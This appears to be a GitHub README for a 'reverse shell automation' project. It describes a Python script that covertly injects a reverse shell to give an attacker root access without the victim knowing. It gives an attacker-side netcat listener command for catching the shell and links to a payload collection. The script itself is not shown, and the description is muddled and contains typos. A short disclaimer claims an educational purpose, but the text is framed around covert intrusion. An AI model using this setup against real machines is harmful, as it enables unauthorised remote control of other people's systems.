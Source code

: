 # 🖥🔄🖥 reversShell_automation

# main description

This project is a quick script that opens a ssh server on a computer.
This script injects a revershell command with out the user even knowing this can also be used to make
a hole for a attacker to get in to. 

# not so long description 
This project contains a python file that starts a revers shell attack wich can be used as a
exploit to gain root 🌳.

# How to start the attack
start by listening on the attackers side 
command : ssty raw -echo; (stty size; cat) | nc -lvnp port -s IPaddr

# 📎 Refernces used in this project 
https://www.youtube.com/watch?v=bXCeFPNWjsM
https://github.com/swisskyrepo/PayloadsAllTheThings

# disclamer
please don't spread this as malware or use on othere's with out concent,
this script was made for the pure pupose of education and cyber sucrity in mind.

--thank you
